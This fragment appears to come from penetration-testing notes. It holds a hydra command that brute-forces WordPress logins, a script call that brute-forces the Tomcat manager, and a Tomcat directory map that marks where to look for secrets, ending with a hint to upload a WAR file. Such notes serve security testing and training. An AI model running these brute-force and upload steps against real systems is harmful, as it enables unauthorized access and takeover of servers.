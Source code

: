 ```bash
hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```

#### Tomcat

```bash
python tomcat-login.py -H $ip -P http -m /manager/html -p 8080
```

Structure.

```bash
├── bin
├── conf
│   ├── catalina.policy
│   ├── catalina.properties
│   ├── context.xml
│   ├── tomcat-users.xml
│   ├── tomcat-users.xsd
│   └── web.xml
├── lib
├── logs
├── temp
├── webapps # Default webroot & hosts applications
│   ├── manager
│   │   ├── images
│   │   ├── META-INF
│   │   └── WEB-INF
|   |       └── web.xml
│   └── ROOT
│       └── WEB-INF
└── work
    └── Catalina
        └── localhost

webapps/customapp
├── images
├── index.jsp
├── META-INF
│   └── context.xml
├── status.xsd
└── WEB-INF
    ├── jsp
    |   └── admin.jsp
    └── web.xml # the juice
    └── lib
    |    └── jdbc_drivers.jar
    └── classes # check for sensitive information
        └── AdminServlet.class   
```

Upload war file.
